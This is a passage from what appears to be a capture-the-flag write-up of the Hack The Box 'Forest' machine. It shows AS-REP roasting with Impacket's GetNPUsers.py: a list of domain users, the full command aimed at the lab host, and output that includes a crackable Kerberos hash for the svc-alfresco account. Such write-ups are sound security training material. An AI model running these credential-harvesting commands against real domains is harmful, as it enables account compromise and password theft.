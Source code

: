 # Exploitation  

So there is one account that is not like the others. `svc-alfresco`. At my company, we do not very accurately define service accounts from other accounts, and a teammate whose life mission it is to fix that problem. It is as if its his firey planety core that keeps him going. So as a joke in talking this through with him it occurred to me that I should heed his warning and start here to see where it takes me in exploitation.

In looking around for ways to leverage service accounts, [Kerberoasting](https://attack.mitre.org/techniques/T1208/) seemed like a good thing to try.
>>>Kerberoasting is a method used to steal service account credentials. Part of the service ticket is encrypted with the NT hash of the user. Any domain account can request Kerberos service tickets. Service tickets can be used to crack passwords offline.


I could not get the `GetUsersSPN` [Impacket](https://github.com/SecureAuthCorp/impacket) script to work, since I did not have a password, however in playing around with some of the  tools I discovered the `GetNPUsers.py` script. It just required a list of users:

users.txt:
```txt
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

and then to run the command:

```
root@discovery:~/htb/forest# python3 ~/tools/impacket/examples/GetNPUsers.py -format john -no-pass -k -usersfile users.txt -dc-ip 10.10.10.161 HTB.LOCAL/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:238f1a0ad4dec046dae7839731174ef8$845d182ef414e25937ac06448cf2c335c0057888743dba3137f65c1243d2a464d1918cfa87fe8fffca596ec7f5e86537ca3e3c10c6a0c885f610ac4273dac966986a6f807d31cf9d27bf5733ca0f986900f7d95116c69b0fa8d168e03f37be57bec8e54d664a73f3009e7593b88dff2f5c0cc9e994ddffb1708fe538a5ad99af235993c5db0212932ed81e389ea68ce2db75be50c31372c1523aea0d33999ee18097f3dad7ebb0f6863f02d698682eed73ae9305a230aed52e02e2ff0d89643aaba74c7b1797dd467988be93b175147b10ac05e8770485c86f0543ef1755fe092c9fb8e404c0
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
